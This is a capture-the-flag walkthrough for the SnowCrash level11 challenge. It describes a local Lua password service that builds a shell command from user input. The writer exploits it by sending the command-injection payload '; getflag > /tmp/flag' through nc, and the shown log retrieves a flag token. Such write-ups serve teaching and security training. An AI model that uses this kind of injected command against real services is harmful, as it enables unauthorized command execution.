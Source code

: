 # Walkthrough

After examining my home directory, I discovered one file, that's a lua script. it listens for incoming network connections on the IP address `(127.0.0.1)` and port `5151`. When a client connects, the program sends a message asking for a password.

After receiving the password from the client, the script computes the SHA1 hash of the password using the `hash` function defined in the script. It then compares the resulting hash to a hardcoded value (f05d1d066fb246efe0c6f7d095f909a7a0cf34a0). If the hashes match, the program sends the message "Gz you dumb*" to the client, indicating that the password was correct. Otherwise, it sends the message "Erf nope.." to the client, indicating that the password was incorrect. After some time, I realized that when a hash function takes a string argument and uses it in a shell command, it is possible to exploit this by using "; getflag > /tmp/flag" as the argument, which allows one to retrieve the flag. 
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: ; getflag > /tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
